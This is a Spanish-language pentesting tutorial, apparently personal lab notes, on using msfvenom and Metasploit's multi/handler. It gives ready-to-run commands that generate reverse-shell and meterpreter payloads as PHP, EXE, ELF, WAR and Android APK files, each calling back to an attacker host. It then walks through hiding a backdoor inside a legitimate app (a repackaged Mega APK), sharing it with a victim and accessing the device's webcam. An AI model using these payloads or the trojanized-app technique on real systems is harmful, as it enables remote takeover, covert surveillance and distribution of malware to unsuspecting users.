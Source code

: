 Msfvenom es una herramienta de línea de comandos que forma parte del framework de pruebas de penetración Metasploit. Se utiliza para generar y personalizar payloads (cargas útiles) maliciosos que pueden ser utilizados en ataques de pruebas de penetración y en la explotación de vulnerabilidades en sistemas informáticos.

## TIPOS DE PAYLOADS
Hay dos tipos de payloads, los staged y los non-staged:

- **Payload Staged** --> El Payload Staged es un tipo de carga útil que se descompone en dos o más partes. La primera parte consiste en un fragmento de código que se envía al objetivo con el fin de establecer una conexión segura entre el atacante y la máquina objetivo. Una vez que se establece esta conexión, la segunda parte del payload, que es la verdadera carga útil del ataque, se envía. Este enfoque le da a los atacantes la capacidad de evadir medidas de seguridad adicionales, ya que la verdadera carga útil no se envía hasta que se establece una conexión segura.

- **Payload non-staged** --> Es un tipo de carga útil que se envía como una única entidad y no se divide en múltiples partes. En otras palabras, la carga útil completa se envía al objetivo en un solo paquete y se ejecuta inmediatamente después de ser recibida. Aunque este enfoque es más simple que el Payload Staged, es más fácilmente detectable por los sistemas de seguridad, ya que todo el código malicioso se envía de una sola vez, lo que puede hacer que sea más fácilmente identificado y bloqueado.

-------------------------------------

## Fichero PHP malicioso con msfvenom
Para generar un archivo de reverse shell en PHP utilizando msfvenom, puedes utilizar el siguiente comando:

```python
msfvenom -p php/reverse_php LHOST=<tu dirección IP> LPORT=<tu puerto> -f raw > reverse_shell.php
```

Una vez que hayas generado el archivo de reverse shell en PHP, puedes transferirlo a la máquina objetivo y ejecutarlo en un servidor web para establecer una conexión de reverse shell con la máquina atacante.

## Fichero EXE malicioso con msfvenom

Podemos también generar un payload para entablar una reverse shell en forma de meterpreter en metasploit desde una máquina windows a nuestra máquina atacante, generando el siguiente payload:
```python
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=443 -f exe -o pwned.exe
```

![[Pasted image 20240613011409.png]]

Una vez generado esto, tenemos que abrir el /multi/handler de metasploit seleccionando como payload el meterpreter:
```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

![[Pasted image 20240613011416.png]]

Y ahora desde la máquina víctima, ejecutamos el script creado anteriormente:
![[Pasted image 20240613011426.png]]

Y recibimos sesión de meterpreter:
![[Pasted image 20240613011432.png]]

Aunque también podemos crear un payload que no sea de meterpreter, sino para recibir una shell normal, haciéndolo de la misma forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
## Fichero ELF malicioso con msfvenom

Los ficheros elf en linux se pueden asemejar a los exe de windows, por lo que haremos lo mismo de antes pero para linux:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 -f elf -o pwned.elf
```

![[Pasted image 20240613011441.png]]

Lo compartimos con la máquina víctima:
![[Pasted image 20240613011444.png]]

Nos ponemos en la escucha con metasploit usando el payload de meterpreter para linux:
```bash
set PAYLOAD linux/x64/meterpreter/reverse_tcp
```

![[Pasted image 20240613011448.png]]

Ejecutamos el archivo en la máquina víctima y recibimos la conexión:
![[Pasted image 20240613011455.png]]

## Fichero WAR malicioso con msfvenom para hacking tomcat

Estamos ante un servidor tomcat, que por ejemplo se trata de la máquina [[MAQUINA DEPLOY]], donde dentro del puerto 8080 corre un servidor tomcat y se nos muestra que podemos subir un archivo WAR:

![[Pasted image 20240613011504.png]]

```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.0.37 LPORT=443 -f war -o revshell.war
```

Lo creamos
![[Pasted image 20240613011517.png]]

Lo subimos y lo tenemos aquí dentro del servidor, donde hacemos clic:
![[Pasted image 20240613011526.png]]

Y recibimos la conexión:
![[Pasted image 20240613011532.png]]

-----------------------------------------

[[MAQUINA SECTALKS (Vulnerabilidad arbitrary file upload, php malicioso con msfvenom, y multi-handler de metasploit)]]

# CREAR APK MALICIOSA
Podemos también crear un payload dentro de un apk y establecer una sesión de meterpreter en metasploit, por tanto usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=443 > virus.apk
```

![[Pasted image 20240613011542.png]]
Y ahora con metasploit estaremos en la escucha con el multi handler, además de establecer el payload correcto:
```bash
set payload android/meterpreter/reverse_tcp
```

![[Pasted image 20240613011547.png]]
Si la ejecutamos desde un dispositivo android habremos recibido una sesión de meterpreter:

![[Pasted image 20240613011605.png]]

Y podemos acceder a la webcam:
![[Pasted image 20240613011611.png]]

# ESCONDER BACKDOOR EN APK LEGÍTIMA
Primero tenemos que instalar apktool en nuestro kali:
![[Pasted image 20240613011617.png]]

Y también nos bajamos la última versión del apktool:
![[Pasted image 20240613011621.png]]

Otorgamos permisos a los 2 archivos:
![[Pasted image 20240613011625.png]]

Movemos los dos archivos al siguiente directorio:
![[Pasted image 20240613011629.png]]

Y dentro del /usr/local/bin tenemos que renombrar el fichero .jar de esta forma:
![[Pasted image 20240613011634.png]]

Y ahora si ejecutamos el apktool debería funcionar bien:
![[Pasted image 20240613011641.png]]

Y ahora instalaremos estos 3 paquetes:
![[Pasted image 20240613011646.png]]

Ahora el siguiente paso será descargar un apk legítima, por ejemplo la de mega:
![[Pasted image 20240613011650.png]]

Y ahora una vez descargado el apk lo pasamos por msfvenom:
```bash
msfvenom -x mega.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.36 LPORT=443 -o mega_virus.apk
```

![[Pasted image 20240613011657.png]]

Lo pasamos al dispositivo android y ahora con metasploit nos ponemos en la escucha:
![[Pasted image 20240613011703.png]]

Nos compartimos el apk con la víctima y con metasploit nos ponemos en la escucha, poniendo este payload:
```bash
set payload android/meterpreter/reverse_tcp
```